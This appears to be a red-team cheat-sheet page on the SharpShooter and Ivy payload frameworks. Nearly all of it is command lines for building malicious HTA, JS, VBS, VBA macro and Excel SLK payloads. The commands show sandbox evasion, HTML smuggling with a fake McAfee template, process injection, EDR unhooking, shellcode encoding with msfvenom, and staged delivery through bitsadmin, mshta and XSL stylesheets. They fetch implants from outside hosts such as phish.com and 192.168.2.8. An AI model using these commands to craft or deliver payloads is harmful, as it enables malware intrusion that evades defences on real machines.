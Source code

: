 # ⭕ SharpShooter & Ivy

## <mark style="color:red;">SharpSooter</mark>

{% embed url="https://github.com/mdsecactivebreach/SharpShooter" %}

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code.

```
git clone https://github.com/mdsecactivebreach/SharpShooter.git
```

SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF.

### <mark style="color:orange;">Stageless JavaScript</mark>

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Create a stageless JavaScript payload targeting version 4 of the .NET framework. This example will create a payload named foo.js in the output directory. The shellcode is read from the ./raw.txt file. The payload attempts to enforce some sandbox evasion by keying execution to the CONTOSO domain, and checking for known sandbox/VM artifacts.

### <mark style="color:orange;">Stageless HTA</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Create a stageless HTA payload targeting version 2/3 of the .NET framework. This example will create a payload named foo.hta in the output directory. The shellcode is read from the ./raw.txt file. The payload attempts to enforce some sandbox evasion by checking for known virtual MAC addresses. A HTML smuggling payload will also be generated named foo.html in the output directory. This payload will use the example McAfee virus scan template.

### <mark style="color:orange;">Staged VBS</mark>

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

This example creates a staged VBS payload that performs both Web and DNS delivery. The payload will attempt to retrieve a GZipped CSharp file that executes the shellcode supplied as a CSharp byte array in the csharpsc.txt file. The CSharp file used is the built-in SharpShooter shellcode execution template. The payload is created in the output directory named foo.payload and should be hosted on [http://www.foo.bar/shellcode.payload](http://www.foo.bar/shellcode.payload). The same file should also be hosted on the bar.foo domain using PowerDNS to serve it. The VBS file will attempt to key execution to the CONTOSO domain and will be embedded in a HTML file using the HTML smuggling technique with the McAfee virus scanned template. The resultant payload is stored in the output directory named foo.html.

### <mark style="color:orange;">Custom CSharp inside VBS</mark>

```
SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```

This example demonstrates how to create a staged JS payload that performs web delivery, retrieving a payload from [http://www.phish.com/implant.payload](http://www.phish.com/implant.payload). The generated payload will attempt sandbox evasion, and attempt to compile the retrieved payload which requires mscorlib.dll and System.Windows.Forms.dll as DLL references. The Main method in the MDSec.SharpShooter namespace will be executed on successful compilation.

### <mark style="color:orange;">Creation of a Squiblytwo VBS</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com outlook --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBS smuggled COM stager that uses the Outlook.CreateObject() COM method as a primitive to execute wmic.exe to execute a hosted stylesheet. The --awl parameter is not used by defaults to wmic.

### <mark style="color:orange;">Creation of a XSL HTA</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a HTA smuggled file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.

### <mark style="color:orange;">Creation of a VBA Macro</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBA macro file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.

### <mark style="color:orange;">Creation of an Excel 4.0 SLK Macro Enabled Document</mark>

```
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee
```

This example creates an Excel 4.0 SLK file that executes the supplied shellcode and wraps it in HTML. The shellcode cannot contain null bytes, hint:

```
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
```



## <mark style="color:red;">Ivy</mark>

Ivy is a payload creation framework for the execution of arbitrary VBA (macro) source code in memory. Ivy’s loader does this by abusing programmatical access in the VBA object environment to load, decrypt, and execute shellcode.

{% embed url="https://github.com/optiv/Ivy" %}

```
git clone https://github.com/optiv/Ivy.git
```

#### <mark style="color:green;">Staged Inject payload</mark>

```
./Ivy -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js
```

#### <mark style="color:green;">Staged Local payload</mark>

```
./Ivy -Ix64 test64.c -Ix86 test32.c -P Local -O SampleLocal.js
```

#### <mark style="color:green;">Stagless Local payload</mark>

```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O stageless.js
```

#### <mark style="color:green;">Stagless Injected payload</mark>

```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O stageless.js
```

#### <mark style="color:green;">Stagless Injected payload spawning notepad.exe</mark>

```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -process64 C:\\windows\\system32\\notepad.exe -process32 C:\\windows\\SysWOW64\\notepad.exe -O stageless.js
```

#### <mark style="color:green;">Unhooked Stagless Local payload</mark>

```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -unhook -O stageless.js
```

#### <mark style="color:green;">Unhooked Stagless Injected payload</mark>

```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -unhook -O stageless.js
```

### <mark style="color:orange;">One Liner Commands Samples</mark>

#### <mark style="color:green;">Non-Executable File Types</mark>

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O test.png -stageless
```

#### <mark style="color:green;">Bitsadmin Command</mark>

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.js -url http://ACME.com -delivery bits -stageless
```

#### <mark style="color:green;">MSHTA.exe Command</mark>

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.hta -url http://ACME.com -delivery hta -stageless
```

#### <mark style="color:green;">Stylesheet Payload</mark>

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.xsl -url http://ACME.com -delivery xsl -stageless
```

#### <mark style="color:green;">Macro Web Downloader</mark>

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.txt -url http://ACME.com/test.txt -delivery macro -stageless
```
